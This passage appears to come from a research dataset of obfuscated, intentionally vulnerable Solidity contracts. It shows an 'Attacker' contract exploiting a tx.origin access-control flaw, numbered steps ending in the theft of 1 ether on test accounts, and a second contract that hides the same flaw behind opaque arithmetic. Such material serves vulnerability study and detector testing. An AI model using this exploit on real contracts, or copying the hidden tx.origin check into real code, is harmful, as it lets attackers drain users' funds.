 ```solidity
    struct scalar2Vector {
        address Ox361e91a892ddfb4da8b4e4f0aaccc16d165c2a65;
    }
    scalar2Vector Ox6bbf48cec4c0962bbb85985c5288dddbb289c731 =
        scalar2Vector(address(0));
}

contract Attacker {
    address public attacker;
    constructor (){
        attacker = msg.sender;
    }
    function attack(address _victim) public {
        Ox735a1689a6fa0225b6cfb6eb2b87727e839dbeff(_victim).Ox99fadf393d7057b9c32f495a906f4b5493c96c77(attacker);
    }
    function () public payable{}
}
```

1. deploy contract `Ox735a1689a6fa0225b6cfb6eb2b87727e839dbeff` by victim EOA `0x5B38Da6a701c568545dCfcB03FcB875f56beddC4` with argument `0x5B38Da6a701c568545dCfcB03FcB875f56beddC4`, then get contract address `0x8431717927C4a3343bCf1626e7B5B1D31E240406` [change]
2. call fallback function by victim EOA `0x5B38Da6a701c568545dCfcB03FcB875f56beddC4` with 1 ether
3. deploy contract `Attacker` by attacker EOA `0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2`
4. call function `attack` by victim EOA `0x5B38Da6a701c568545dCfcB03FcB875f56beddC4` with argument `0x8431717927C4a3343bCf1626e7B5B1D31E240406`(victim contract address)[change]
5. attacker EOA `0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2` steals 1 ether

### 3. phishable.sol_confuse&Ox9b1b08cba67a2c9c6378a0ea4aea85a58c3240ff

#### Source Code

```javascript
pragma solidity ^0.4.22;

contract Ox514ebff829ac5d3007a064ab6c3f3ec53897fc05 {
    constructor(address Oxbbd26f003892ee7891fb392a6a858abc5fdf391b) public {
        Ox3c53a0cbc5e08d0eb79a9d0f70e3d4a0839d1326
            .Oxe47c6f7cdaec3aa6ca15b8518d73bdfeedc877c0 = Oxbbd26f003892ee7891fb392a6a858abc5fdf391b;
    }

    function() public payable {}

    function Ox9b1b08cba67a2c9c6378a0ea4aea85a58c3240ff(
        address Oxf07747d0ab6b2f128077871b302018255bb45946
    ) public {
        uint Oxc86b25beb1b5b1bda3fb27d659a0ac02b628b376 = 5 * 7 + 9 - 1 - 42;
        while (
            Oxc86b25beb1b5b1bda3fb27d659a0ac02b628b376 != 7 * 7 - (4 - 2) - 47
        ) {
            if (
                Oxc86b25beb1b5b1bda3fb27d659a0ac02b628b376 ==
                5 * (6 * 9 * 1) - 269
            ) /*ACCESS_CONTROL*/ {
                require(
                    tx.origin ==
                        Ox3c53a0cbc5e08d0eb79a9d0f70e3d4a0839d1326
                            .Oxe47c6f7cdaec3aa6ca15b8518d73bdfeedc877c0
                );
                Oxc86b25beb1b5b1bda3fb27d659a0ac02b628b376 =
                    6 +
```
